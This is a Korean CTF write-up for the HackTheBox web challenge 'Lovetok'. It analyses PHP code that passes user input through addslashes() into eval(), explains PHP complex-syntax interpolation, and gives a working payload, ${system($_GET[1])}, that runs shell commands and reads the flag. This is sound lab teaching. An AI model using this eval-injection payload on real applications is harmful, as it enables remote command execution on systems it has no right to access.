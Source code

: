 ```yaml
---
title: '[Hackthebox] Lovetok'
author: hoppi
date: 2022-12-23 01:20:00 + 0100
categories: [Web]
tags: [hackthebox, lovetok, php]
---
```

**키워드: PHP, addslashes()**  
  
![describtion](../../../assets/img/2022-12-23/2022-12-23-description.png){: w="600" h="300" }  
# 코드 분석
***
index 관련 함수를 보면 format 파라미터를 통해 `TimeModel` 생성자의 인자 값을 전달한다. 그리고 `getTime` 함수를 호출한다.

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```   
{: file="TimeController.php" }

<br><br/>
생성자 부분을 보면 `$format` 변수를 `addslashes` 함수를 통해서 필터링을 해주고 `date` 함수의 인자 값으로 들어간다.
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));'); // strtotime -> 텍스트를 시간으로 변환 반환 값은 유닉스타임스탬프
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```
{: file="TimeModel.php" }  

# 취약점
***
## addslashes() bypass using complex Syntax
***  
`addslashes` 함수 우회를 통해서 [SQL Injection](https://www.securityidiots.com/Web-Pentest/SQL-Injection/addslashes-bypass-sql-injection.html)을 할 수 있지만 이 문제와는 맞지 않는다. 바로 `complex syntax`을 이용하는 방법이다. 먼저 아래와 같이 작은따옴표와 큰따옴표로 둘러싸여 있을때 차이가 있다.
```shell
php > $a = 1;
php > echo 'a is $a';
a is $a
php > echo "a is $a";
a is 1 
```
<br><br/>
또한 아래와 같이 내가 원하는 값은 `'bad'` 인데 그것을 표현하기 위해 `complex syntax`를 아래와 같이 이용할 수 있다.
```shell
php > $abc='ba';
php > echo "$abcd";
PHP Warning:  Undefined variable $abcd in php shell code on line 1

php > echo "${abc}d";
bad
```

<br><br/>
그리고 이런식의 중괄호 안에 함수가 들어갈 수 있는데 <u>먼저 함수를 실행한 뒤</u>, 함수에서 반환되는 값을 변수 이름으로 설정하고 값 할당이 가능해진다. (phpinfo 함수가 먼저 실행된 모습)
```shell
php > var_dump(${phpinfo()}=123);

...

PHP Quality Assurance Team
Ilia Alshanetsky, Joerg Behrens, Antony Dovgal, Stefan Esser, Moriyoshi Koizumi, Magnus Maatta, Sebastian Nohn, Derick Rethans, Melvyn Sopacua, Pierre-Alain Joye, Dmitry Stogov, Felipe Pena, David Soria Parra, Stanislav Malyshev, Julien Pauli, Stephen Zarkos, Anatol Belski, Remi Collet, Ferenc Kovacs

                     Websites and Infrastructure team
PHP Websites Team => Rasmus Lerdorf, Hannes Magnusson, Philip Olson, Lukas Kahwe Smith, Pierre-Alain Joye, Kalle Sommer Nielsen, Peter Cowburn, Adam Harvey, Ferenc Kovacs, Levi Morrison
Event Maintainers => Damien Seguy, Daniel P. Brown
Network Infrastructure => Daniel P. Brown
Windows Infrastructure => Alex Schoenmaker

PHP License
This program is free software; you can redistribute it and/or modify
it under the terms of the PHP License as published by the PHP Group
and included in the distribution in the file:  LICENSE

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.

If you did not receive a copy of the PHP license, or have any
questions about PHP licensing, please contact license@php.net.

int(123) 
php > var_dump($a=123);
int(123)
```


# Exploit
***
`eval` 함수를 통해서 `date` 함수를 이용하는데 첫 번째 파라미터는 string 형태의 `$format` 인데 만약 일치하는 [포맷](https://www.w3schools.com/php/func_date_date.asp)이 없으면 그대로 출력하는 것을 볼 수 있다. (A → AM을 나타냄)  
그렇기 때문에 `complex syntax`를 이용하여 `${system()}` 처럼 `system` 함수가 먼저 실행되게 하여  명령어 결과를 볼 수 있다.  
![describtion](../../../assets/img/2022-12-23/2022-12-23-am.png){: w="600" h="300" }
_/?format=A$$$_  
<b></b>
따라서 다음과 같은 페이로드가 가능하다. <u>하지만 따옴표는 기본적으로 addslashes 함수에 걸리기 때문에 사용할 수 없어서 1이라는 파라미터를 따로 설정하여 명령어를 system 함수의 인자로 넣어줘야한다.</u>
```
/?format=${system($_GET[1])}&1=ls%20-al
```    
![describtion](../../../assets/img/2022-12-23/2022-12-23-ls.png){: w="600" h="300" }
_/?format=${system($_GET[1])}&1=cat%20/ls%20-al%20/_


![describtion](../../../assets/img/2022-12-23/2022-12-23-flag.png){: w="600" h="300" }
_/?format=${system($_GET[1])}&1=cat%20/flag*_  


# Reference
***
- https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php